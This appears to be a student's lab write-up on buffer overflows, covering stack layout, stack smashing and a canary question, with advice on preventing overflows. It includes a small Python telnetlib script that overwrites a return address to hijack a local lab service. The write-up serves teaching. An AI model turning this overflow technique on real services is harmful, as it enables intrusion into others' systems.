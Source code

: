 # Activity 10 - Buffer Overflow

## Part 1: Stack Layout

The stack layout is identified as follows:

![1_StackLayout](1_StackLayout.png)

## Part 2: Stack Smashing

The result of stack smashing exercise is as follows:

![2](2.png)

## Part 3: Stack Smashing an Internet Service

The process:

1. Start the service at port 60000 with netcat

![31](3_1.png)

2. Run the smash code in a separate terminal. The code emulates telnet and will send a string with the shell's address as input to the service.

```python
#!/usr/bin/python3
import telnetlib

# open connection
tn=telnetlib.Telnet("127.0.0.1",60000)

#offset=40
#target_addr="5647740e61b5"

offset=int(input("Offset (40?):"))
target_addr=input("Target (shell) address (eg. 5647740e61b5): ")
buff=offset*(b'x')
addr=bytearray.fromhex(target_addr)
addr.reverse()
buff+=addr
print(buff)

# sending buffer
tn.write(buff)
# emulate telnet/terminal
tn.interact()
```

As a result, the program returns to the function `shell` which contains the output shown ('You Are Hacked!')

![32](3_2.png)

## Part 4: Canary

> From exercise 2 and 3, can you explode the buffer-overflow attack even when the canary-style protection is activated? Please explain your analysis.

It is possible if the hacker knows the details of the canary (e.g. where it is, what its value is). Then, when creating a stack smashing input, the hacker can make it such that the canary's value is kept the same.

## Part 5: Questions

> Do you think that exploiting buffer-overflow attacks is trivial? Please justify your answer. (i.e. Is it trivial to write a program to exploit buffer-overflow attacks in a server ?)

No, it is in no way a trivial task, as knowledge of the stack structure and code of the victim system is necessary to carry out a successful attack. This information is usually not trivial to get, so buffer-overflow attacks are not an easy thing to do.

> As a programmer, is it possible to avoid buffer overflow in your program (write secure code that is not vulnerable to such attack)? Explain your strategy.

It is possible to try and prevent buffer overflow attacks as much as possible by many ways, such as:

- Examining the source code for vulnerable areas such as pointer usage or memory allocation.
- Checking the size of input and whether or not the input is accessing prohibited addresses.
- Using programming languages with built-in memory management to help reduce the risk of buffer overflow attacks on our system.
